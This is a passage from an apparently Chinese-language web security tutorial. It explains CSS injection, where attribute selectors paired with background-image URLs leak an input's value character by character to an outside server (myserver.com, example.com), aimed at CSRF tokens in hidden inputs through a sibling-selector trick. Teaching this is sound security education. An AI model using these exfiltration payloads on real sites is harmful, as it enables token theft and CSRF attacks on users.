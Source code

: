 ``` css
input[name="secret"][value^="z"] {
  background: url(https://myserver.com?q=z)
}
```

會發生什麼事情？

因為第一條規則有順利找到對應的元素，所以 input 的背景就會是一張伺服器上的圖片，而瀏覽器就會發 request 到 `https://myserver.com?q=a`。

因此，當我在 server 收到這個 request 的時候，我就知道「input 的 value 屬性，第一個字元是 a」，就順利偷到了第一個字元。

這就是 CSS 之所以可以偷資料的原因，透過屬性選擇器加上載入圖片這兩個功能，就能夠讓 server 知道頁面上某個元素的屬性值是什麼。

好，現在確認 CSS 可以偷屬性的值了，接下來有兩個問題：

1. 有什麼東西好偷？
2. 你剛只示範偷第一個，要怎麼偷第二個字元？

我們先來討論第一個問題，有哪些東西可以偷？通常都是要偷一些敏感資料對吧？

最常見的目標，就是 CSRF token。如果你不知道什麼是 CSRF，這個我之後的文章會再提到。

簡單來說呢，如果 CSRF token 被偷走，就有可能會被 CSRF 攻擊，總之你就想成這個 token 很重要就是了。而這個 CSRF token，通常都會被放在一個 hidden input 中，像是這樣：

``` html
<form action="/action">
  <input type="hidden" name="csrf-token" value="abc123">
  <input name="username">
  <input type="submit">
</form>
```

我們該怎麼偷到裡面的資料呢？

## 偷 hidden input

對於 hidden input 來說，照我們之前那樣寫是沒有效果的：

``` css
input[name="csrf-token"][value^="a"] {
  background: url(https://example.com?q=a)
}
```

因為 input 的 type 是 hidden，所以這個元素不會顯示在畫面上，既然不會顯示，那瀏覽器就沒有必要載入背景圖片，因此 server 不會收到任何 request。而這個限制非常嚴格，就算用 `display:block !important;` 也沒辦法蓋過去。

該怎麼辦呢？沒關係，我們還有別的選擇器，像是這樣：

``` css
input[name="csrf-token"][value^="a"] + input {
  background: url(https://example.com?q=a)
}
```

最後面多了一個 `+ input`，這個加號是另外一個選擇器，意思是「選到後面的元素」，所以整個選擇器合在一起，就是「我要選 name 是 csrf-token，value 開頭是 a 的 input，的後面那個 input」，也就是 `<input name="username">`。
